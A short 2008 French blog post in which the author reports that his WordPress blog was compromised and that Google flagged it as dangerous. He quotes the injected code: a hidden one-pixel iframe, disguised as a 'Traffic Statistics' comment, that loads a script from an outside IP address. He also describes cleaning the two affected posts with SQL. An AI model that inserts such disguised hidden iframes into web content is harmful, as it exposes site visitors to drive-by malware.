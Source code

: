 ```yaml
---
id: 515
disqus_id: 515 http://regis.decamps.info/blog/?p=515
title: 'Ce blog s’est fait kacker'
date: 2008-05-12T23:41:08+00:00
layout: post
guid: http://regis.decamps.info/blog/2008/05/ce-blog-sest-fait-kacker/
permalink: /blog/2008/05/ce-blog-sest-fait-kacker/

dsq_thread_id:
  - "564520470"
categories:
  - Hightech
  - Misc
tags:
  - Misc
  - Sécurité
---
```

Attention, mon blog a été hacké.

Google indiquait que mon blog était `potentiellement dangereux’. J’ai d’abord cru qu’ils avaient fumé ; mais en fait non. 

Par exemple, quelques posts contenaient
  
```
<!-- Traffic Statistics --> <iframe src=http://xx.155.8.157/iframe/wp-stats.php width=1 height=1 frameborder=0></iframe> <!-- End Traffic Statistics -->
```


WordPress a connu un certain nombre de failles de sécurité, et j’ai un peu de mal à suivre les mises à jour. 

J’ai fait le ménage à coup de requêtes SQL. Deux articles étaient concernés:

  * <http://regis.decamps.info/blog/2008/04/liso-approve-loffice-open-xml/>
  * <http://regis.decamps.info/blog/2007/10/boutique-ferrari/>
